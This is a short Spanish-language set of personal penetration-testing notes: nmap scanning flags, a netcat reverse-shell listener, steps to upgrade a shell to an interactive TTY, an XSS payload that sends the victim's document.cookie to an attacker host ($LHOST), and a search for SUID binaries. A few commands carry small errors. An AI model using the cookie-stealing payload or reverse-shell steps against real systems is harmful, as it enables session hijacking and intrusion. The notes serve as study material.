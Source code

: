 ```yaml
---
title: Apuntes Pentesting V2
published: true
---
```

Buenas, bienvenidos a mi segunda parte de mis apuntes. Esta es la forma que tengo de pasar a limpio la utilización de algunas herramientas.

# [](#header-1)1. Uso genérico de NMAP.

## [](#header-2)1.1 Escaneo rápido de puertos explicado paso a paso.

```
nmap -sS --min-rate  5000 --open -vvv -n -Pn -p- $RHOST -oN "allPorts"
```

*   **sS** - Permite realizar un SYN scan. Esto permite explorar puertos utilizando únicamente paquetes tipo SYN.
*   **--min-rate 5000** - Indica el número de mínimo de tasa de paquetes.  En este caso (5000)
*   **--open** - Únicamente mostrar los puertos abiertos.
*   **-vvv** - Triple Verbose, para que el estado del escaneo sea mostrado en pantalla.
*   **-n** - Indica al escaneo que no realice resolución de nombres
*   **-Pn** - Indica al escaneo que no haga ping al host.
*   **-p-** - Indica que el escaneo será realizado en todos los puertos.

El uso del parámetro **-oN** es para exportar el resultado del escaneo a un archivo. En este caso llamado. "allPorts"

## [](#header-2)1.2 Enumerar puertos y servicios mediante NMAP.

```
nmap -sC -sV -p(ports) $RHOST -oN "target"
```

*   **-sC** - Realiza análisis con los scripts por defecto.
*   **-sV** - Detección de la versión de los servicios.
*   **-p(ports)** - Indicamos los puertos a analizar, separados por comas.

# [](#header-1)2. Establecimiento de Reverse Shell

## [](#header-2)2.1 Escucha en Netcat de Reverse Shell.
```
nc -nlvp 443
```

Utilizaremos este comando para ponernos en escucha por el puerto 443. Puerto comúnmente usado para el protocolo HTTPS.

## [](#header-2)2.2 Obtención de Shell interactiva.

```
script /dev/null/ -c bash
Ctrl+Z
stty raw echo
fg
reset
xterm
export TERM=xterm
export SHELL=bash
``` 
# [](#header-1)3. Obtención de cookies mediante XSS

**Payload:**

```
<script>document.write('<img src="http://$LHOST/x.jpg?cookie='+ document.cookie +'"></script>')
```

Para el uso de este Payload deberemos instaurar un servidor HTTP, por ejemplo con el módulo de python SimpleHTTPServer, y tras ejecutar el payload, recibiremos una petición GET con dichas cookies.

# [](#header-1)4. Encontrar binarios SUID dentro de un sistema.

Para ello ejecutaremos el siguiente comando:
```
find \ -perm -4000 2>/dev/null
```

Básicamente, buscaremos desde la raíz todos los binarios SUID, y dirigiremos el **stderr** al /dev/null.

